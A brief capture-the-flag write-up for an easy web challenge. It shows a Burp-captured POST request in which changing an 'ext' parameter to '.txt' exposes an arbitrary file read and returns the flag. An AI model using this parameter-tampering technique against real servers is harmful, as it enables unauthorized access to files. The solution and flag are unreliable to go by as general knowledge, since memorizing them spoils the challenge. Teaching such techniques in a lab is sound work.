


### Zero Order
Level: Easy

Rus: У такой крупной компании заметно низкая активность заказов. Может они показывают на странице не всю информацию?

Eng: Such a large company has noticeably low order activity. Maybe they don't show all the information on the page?

### Solution

We see the table with orders, three tabs. After checking all the buttons wee see, that only "Refresh" button is working.


Let's catch the request through Burp.



We can see the parameter, which looks like a file extension, let try to send ".txt".


```
POST /index.php HTTP/1.1
Host: 62.173.140.174:16028
Content-Length: 8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://62.173.140.174:16028
Referer: http://62.173.140.174:16028/
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

ext=.txt
```


get flag in the response: CODEBY{d0_y0u_w4nna_arb1tr4ry_f1l3_r34d?}
